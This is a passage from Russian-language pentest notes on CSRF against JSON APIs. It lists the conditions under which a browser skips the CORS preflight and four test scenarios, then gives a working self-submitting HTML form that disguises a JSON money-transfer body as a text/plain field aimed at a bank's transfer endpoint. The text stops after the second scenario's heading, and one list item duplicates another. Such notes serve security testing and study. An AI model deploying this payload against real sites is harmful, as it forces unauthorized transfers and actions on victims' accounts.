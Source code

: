 # CSRF с JSON

## Pre-fight Request

> Чтобы не вызвать предполётный запрос, нужно:
> 1. **Метод:** GET, POST, HEAD.
> 2. **HTTP-заголовки:** помимо автоматически добавляемых заголовков по умолчанию, можно установить только безопасные заголовки CORS.
> 3. **Тип контента:** должен быть "application/x-www-form-urlencoded", "text/plain", "multipart/form-data". ReadableStram: не открывать ReadableStram в запросе.
> 4. **Нет прослушивателей XMLHttpRequestUpload**
> 
> Можно проверить сайт на 4 ситуации:
> 1. **Content-Type не проверяется** на стороне сервера, а также **не проверяются данные POST**, правильно ли они отформатированы. [[#**Content-Type не проверяется** на стороне сервера, а также **не проверяются данные POST**, правильно ли они отформатированы.|1.]]
>2. **Content-Type не проверяется** на стороне сервера, а также **не проверяются данные POST**, правильно ли они отформатированы. [[#**Content-Type не проверяется** на стороне сервера, но **проверяются данные POST** - правильно ли они отформатированы или нет.|2.]]
>3. С помощью запроса XMLHTTP/запроса AJAX: когда **Content-Type проверяется** на стороне сервера, и сервер принимает только "Content-Type: "application/json". [[#С помощью запроса XMLHTTP/запроса AJAX когда **Content-Type проверяется** на стороне сервера, и сервер принимает только "Content-Type "application/json".|3.]]
>4. С помощью файла FLASH: когда **Content-Type проверяется** на стороне сервера и сервер принимает **только "Content-Type: application/json"**, а **CORS также настроен правильно**. [[#С помощью файла FLASH когда **Content-Type проверяется** на стороне сервера и сервер принимает **только "Content-Type application/json"**, а **CORS также настроен правильно**|4.]]

##### **Content-Type не проверяется** на стороне сервера, а также **не проверяются данные POST**, правильно ли они отформатированы.

В следующей форме отправляется в качестве параметра input text/plain, в name которого находится нужный нам JSON.
```html
<html>  
<body>  
<form action=”[https://members.bankofdirectdefense.com/accounts/transfer](https://members.bankofdirectdefense.com/accounts/transfer)" method=”POST” enctype=”text/plain”>  
<input type=”hidden” name=”{\”from-account\”: 1,\”toAccount\”: \”021000021–9876543210\”,\”amount\”: 1000,\”currency\”: \”USD\”,\”foo” value=”\”:\”bar\”}” />  
</form>  
<script>document.forms[0].submit();</script>  
</body>  
</html>
```

##### **Content-Type не проверяется** на стороне сервера, но **проверяются данные POST** - правильно ли они отформатированы или нет.
